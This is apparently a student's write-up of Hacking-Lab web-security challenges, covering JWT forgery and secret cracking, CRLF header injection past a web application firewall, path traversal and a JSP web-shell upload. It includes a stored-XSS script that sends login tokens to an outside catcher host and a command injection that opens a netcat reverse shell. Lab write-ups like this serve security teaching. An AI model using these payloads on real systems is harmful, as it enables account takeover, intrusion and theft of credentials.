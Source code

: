 # SCHOGGI: JWT Vulnerability 1

- watched Request and Response of the `/api/account` via Burp Proxy
- used Repeater and changed JWT Algo to `None`
- by doing so we could iterate through the `uid` and `105` is an admin
- the signature is recalculated and replaced value inside the Storage in Firefox

```json
eyJ0eXAiOiJKV1QiLCJhbGciOiJOT05FIn0.eyJqdGkiOiIxYTZkODhiZS0xMjFkLTQzYmEtODU1ZC1kMmZiZDgwNWY1OTYiLCJ1aWQiOjEwNSwiZXhwIjoxNzAzMDEwNDczfQ.
```

- after that we could access the profile page of the `admin victor`

# SCHOGGI: JWT Vulnerability 2

- watched Request and Response of the `/api/account` via Burp Proxy
- saved the JWT to a file and used `john` to get the _MAC Password_
- the result was that the _MAC Password_ is `pyramid`

```sh
> john --format=HMAC-SHA256 --wordlist=10-million-password-list-top-10000.txt lab08_challenge02_jwt
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 128/128 SSE2 4x])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
pyramid          (?)
1g 0:00:00:00 DONE (2023-12-20 07:00) 50.00g/s 409600p/s 409600c/s 409600C/s 123456..lobo
```

- from there we used the _MAC Password_ and recalculated the JWT of the `uid=105` because we already know that this is an admin
- the signature is recalculated and replaced value inside the Storage in Firefox

```json
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJqdGkiOiIzMzcwNmFiMC0xNDg2LTQ4ZmYtOGE2Ni1kYzA4ODk0NmFhYjUiLCJ1aWQiOjEwNSwiZXhwIjoxNzAzMDU0MjUxfQ.4d7hSiOucVXb-yKkZjLUdtH_bm9Vim3wkaHdvo2bB9w
```

- after that we could access the admin page of the admin user `victor`

# SCHOGGI: Cross-Site Request Forgery (CSRF) with JSON

- attack.html + image

# SCHOGGI: CORS Misconfiguration (Level 1)

- attack2.html + image

# GlockenEmil 2.0 – JSON

- watched Request and Response of the `/api/product` via Burp Proxy
- tried to inject js code via the comments so that requests are sent to the catcher

```js
<script>
  fetch('https://1ff78333-e2ef-4a26-af65-62cd74e48e1b.idocker.vuln.land/abcd?token='+
  localStorage.getItem('token'))
</script>
```

- logged in as the second customer on another firefox instance
- accessed this url `https://1ed79c60-26f0-4d44-8900-87decba8c0e6.idocker.vuln.land/api/product/5aa0481e876d9d39d4397885` and the js code is being executed

```sh
QueryString:
b''
===================================================
URL: http://1ff78333-e2ef-4a26-af65-62cd74e48e1b.idocker.vuln.land/abcd?token="eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc1JldGFpbGVyIjpmYWxzZSwiX2lkIjoiNWFhMDQ4MWU4NzZkOWQzOWQ0Mzk3ODVjIiwidXNlcm5hbWUiOiJjdXN0b21lcjEiLCJmaXJzdG5hbWUiOiJQZXRlciIsImxhc3RuYW1lIjoiSG9sem1hbm4iLCJlbWFpbCI6IlBldGVyLkhvbHptYW5uQGdtYWlsLmNvbSIsImlhdCI6MTcwMzEwMjY0NywiYXVkIjoic2VsZiIsImlzcyI6IndlYnNob3AifQ.zpKRIcsS13fMCn2w6RkESxyNZJOyv0gvpR_bGp2ez64"
METHOD: GET
IP: 10.129.0.1
Time: 2023-12-20 20:34:22
Headers:
Host: 1ff78333-e2ef-4a26-af65-62cd74e48e1b.idocker.vuln.land
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.5
Dnt: 1
Origin: https://1ed79c60-26f0-4d44-8900-87decba8c0e6.idocker.vuln.land
Referer: https://1ed79c60-26f0-4d44-8900-87decba8c0e6.idocker.vuln.land/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-site
Te: trailers
X-Forwarded-For: 51.154.62.18
X-Forwarded-Host: 1ff78333-e2ef-4a26-af65-62cd74e48e1b.idocker.vuln.land
X-Forwarded-Port: 443
X-Forwarded-Proto: https
X-Forwarded-Server: vm-docker-01.vuln.land
X-Real-Ip: 51.154.62.18


QueryString:
b'token=%22eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc1JldGFpbGVyIjpmYWxzZSwiX2lkIjoiNWFhMDQ4MWU4NzZkOWQzOWQ0Mzk3ODVjIiwidXNlcm5hbWUiOiJjdXN0b21lcjEiLCJmaXJzdG5hbWUiOiJQZXRlciIsImxhc3RuYW1lIjoiSG9sem1hbm4iLCJlbWFpbCI6IlBldGVyLkhvbHptYW5uQGdtYWlsLmNvbSIsImlhdCI6MTcwMzEwMjY0NywiYXVkIjoic2VsZiIsImlzcyI6IndlYnNob3AifQ.zpKRIcsS13fMCn2w6RkESxyNZJOyv0gvpR_bGp2ez64%22'
===================================================
```

# GlockenEmil 2.0 – RCE Remote Code Execution

- started listening with netcat on the web shell

```sh
nc -lvp 1337
```

- tried many variants to connect to the web shell via the website

```sh
From = require('child_process').exec('nc 10.131.0.4 1337 -e sh -i')
Quantity = 1
```

```sh
connect to [10.131.0.4] from tmp-glocken-emil-2-rce-db780a1b-b201-43b4-a75f-c89e59bcdfb1-1.tmp_default [10.131.0.3] 46379
```

- while connected to the interactive web shell we searched for the secret file

```sh
find ./ -type f | grep -rnw './' -e 'secret:'

./configs/index.js:22:        secret: 'kslafjop2)/)*(ZOJKN*K*JL*IU%*IO%JH'
```

# Peter Brown Website

- script does not check the file _path_ or the file _type_
- if the file `image` cannot be found then script returns the current directory path
- the script can be called from the browser and it just return any file it gets
- user `peterbrown` used a weak password

```sh
steven:019350074919e8b16136249e33c60a3bce643c85a7618e56ca83be7986e47a10X$xhhNgqEIdbVoXJd
lucy:e7e08d3198433df47d07245edfade7eb5f7921b67edc31ee868ea8fd634b5c15W$S6hQzOLI2vWtgm5
tom:4a0f3fb95c8d855b630cb43dbb5d5bf893d579adb6c54c15a8adfac8dc5a3032$K3aRH1AkSvBNGfw
garfield:9fbaa10591217928dfc67e982dc130eefa49bd86611ebb1e912400fab8b96995$doP0D4pXhSIp3Lw
peterbrown:61e2870f803df3706d16af40154831f99cf77dfddea08a553a2ce48bb9e7d482$gIZnu8AXeCa9IH
```

```sh
username: peterbrown
password: GarfieldStonehenge14
```

# Web App Firewall Bypass

- watched Request and Response of the `/login/Login.action` via Burp Proxy
- we can use the `url` of the POST body

```html
POST /login/Login.action HTTP/1.1 Host: login.vm.vuln.land User-Agent:
Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0 Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5 Accept-Encoding: gzip, deflate Content-Type:
application/x-www-form-urlencoded Content-Length: 59 Origin:
http://login.vm.vuln.land Connection: close Referer:
http://login.vm.vuln.land/static/index1.html Cookie:
MOD_BUT=RqoWuWJhL8lIIiuLPyZuCMdMZpEAXI2d Upgrade-Insecure-Requests: 1
username=hacker10&url=%2Fsecure%2F&lang=EN&password=compass
```

- if use this now we can encode our request inside the `url`

```sh
/secure/
Set-Cookie: LOGON=ok
Set-Cookie: MOD_BUT_Username=admin

url encode:
%2Fsecure%2F%0D%0ASet%2DCookie%3A%20LOGON%3Dok%0D%0ASet%2DCookie%3A%20MOD%5FBUT%5FUsername%3Dadmin
```

- while in _intercept mode_ we can change the encoded `url` inside the POST body and we are forwarded to the admin page

```html
...
username=hacker10&url=%2Fsecure%2F%0D%0ASet%2DCookie%3A%20LOGON%3Dok%0D%0ASet%2DCookie%3A%20MOD%5FBUT%5FUsername%3Dadmin&lang=EN&password=compass
```

# PLUpload Challenge

- watched Request and Response of the `/upload` and `/download` via Burp Proxy
- if we want to download a non existing file we get an `500` error

```url
https://a6aaf4a3-afcc-4f0c-94a9-aa327db03331.idocker.vuln.land/Download?f=test
```

```java
java.io.FileNotFoundException: /var/tomcat/webapps/ROOT/uploadfile/test (No such file or directory)
 java.io.FileInputStream.open(Native Method)
 java.io.FileInputStream.<init>(FileInputStream.java:146)
 java.io.FileInputStream.<init>(FileInputStream.java:101)
 file.download.FileDownloadAction.doGet(FileDownloadAction.java:29)
 javax.servlet.http.HttpServlet.service(HttpServlet.java:621)
 javax.servlet.http.HttpServlet.service(HttpServlet.java:722)
```

- in the exception there is the full path of the directory where the uploaded files are stored
- based on that we tried to upload the `shell.jsp` script
- after the upload we can try to access it via the browser

```url
https://a6aaf4a3-afcc-4f0c-94a9-aa327db03331.idocker.vuln.land/uploadfile/shell.jsp
```

- navigated to the file `/var/gold.txt`

```sh
HL{New_is_always_better}
```
